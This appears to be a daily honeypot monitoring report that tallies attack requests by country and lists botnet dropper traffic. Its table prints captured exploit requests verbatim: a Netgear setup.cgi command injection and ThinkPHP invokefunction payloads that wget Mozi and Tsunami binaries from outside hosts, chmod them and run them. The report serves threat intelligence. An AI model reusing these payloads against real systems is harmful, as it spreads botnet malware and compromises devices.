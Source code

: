 ```yaml
---
title: "Report: 2025-04-05 "
date: 2025-04-05
desciption: "Report: 2025-04-05" 
tags: [repport, daily]
---
```



# Daily Report: 2025-04-05 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 17 stage 1 IP address(es), linked to 7 dropper URL(s).  

There are 23 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 2988 requests were recorded during the day, originating from 17 different countries, with a peak of 1048 requests coming from NL.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| SC               | Germany            |
| US               | Dubai              |
| SE               | Israel             |
| CN               | Georgia            |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                                                                                                                                                     |
|:----------------|:--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 139.5.0.55      | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://192.168.1.1:8088/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                                   |
| 204.76.203.18   | GET /wget HTTP/1.1                                                                                                                                                                                                                          |
| 92.52.235.131   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://45.125.12.175/OwO/Tsunami.x86 -O /tmp/.Tsunami; chmod 777 /tmp/.Tsunami; /tmp/.Tsunami Tsunami.x86' HTTP/1.1 |
| 175.183.33.202  | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://193.239.147.201/bins/x86 -O thonkphp ; chmod 777 thonkphp ; ./thonkphp ThinkPHP ; rm -rf thinkphp' HTTP/1.1   |
| 123.241.105.30  | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://193.239.147.201/bins/x86 -O thonkphp ; chmod 777 thonkphp ; ./thonkphp ThinkPHP ; rm -rf thinkphp' HTTP/1.1   |
| 61.10.103.203   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://193.239.147.201/bins/x86 -O thonkphp ; chmod 777 thonkphp ; ./thonkphp ThinkPHP ; rm -rf thinkphp' HTTP/1.1   |
| 211.143.108.124 | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1               |
| 114.76.203.37   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://45.125.12.175/OwO/Tsunami.x86 -O /tmp/.Tsunami; chmod 777 /tmp/.Tsunami; /tmp/.Tsunami Tsunami.x86' HTTP/1.1 |
